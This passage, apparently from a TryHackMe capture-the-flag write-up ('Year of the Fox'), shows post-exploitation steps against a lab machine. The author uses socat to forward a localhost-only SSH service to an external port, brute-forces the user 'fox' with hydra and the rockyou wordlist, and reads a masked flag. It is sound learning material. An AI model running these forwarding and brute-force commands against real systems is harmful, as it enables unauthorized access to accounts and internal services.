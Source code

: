 ```
ChallengeResponseAuthentication no
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes

```

Is that `ssh` only in localhost?

```
www-data@year-of-the-fox:/tmp$ netstat -tulp | grep ssh
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 localhost:ssh           0.0.0.0:*               LISTEN      -  

```

Yep, it is. Also inside the `/etc/ssh/ssh_config` i can see that only the user `fox` is allowed to connect through it. To get access to this service from our machine i will use `socat` to open a port in the remote machine and i will forward it to the port 22:

```
/tmp/socat tcp-listen:8080,reuseaddr,fork tcp:localhost:22
```

After executing that the `ssh` service is available in the port 8080 of the target machine. I will try to brute force it with `hydra`:

```
┌──(kali㉿kali)-[~]
└─$ hydra -l fox -P ~/rockyou.txt <MACHINE_IP> -s 8080 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-20 16:24:28
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://<MACHINE_IP>:8080/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[8080][ssh] host: <MACHINE_IP>   login: fox   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-20 16:27:24
```

The credentials are `fox:*****`. To get the flag just execute:
```
fox@year-of-the-fox:~$ cat /home/fox/user-flag.txt 
THM{*********************************}
```
